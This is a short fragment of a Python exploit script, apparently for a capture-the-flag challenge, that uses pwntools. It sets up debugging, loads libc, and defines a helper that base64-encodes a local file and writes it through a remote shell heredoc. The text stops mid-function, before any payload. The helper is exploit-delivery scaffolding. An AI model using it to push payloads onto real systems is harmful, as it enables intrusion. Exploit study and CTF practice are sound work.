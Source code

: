

## bassoon.qmeu.py

```python
from pwn import *
import os
import base64

aslr = True
context.log_level = "debug"
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = None
ru = lambda x : p.recvuntil(x, timeout=10)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def send_file(src, dst):
    pl = base64.b64encode(open(src, "rb").read())
    sla(b"#", b"cat<<EOF|base64 -d>"+dst)
    for i in range(0, len(pl), 0x100):
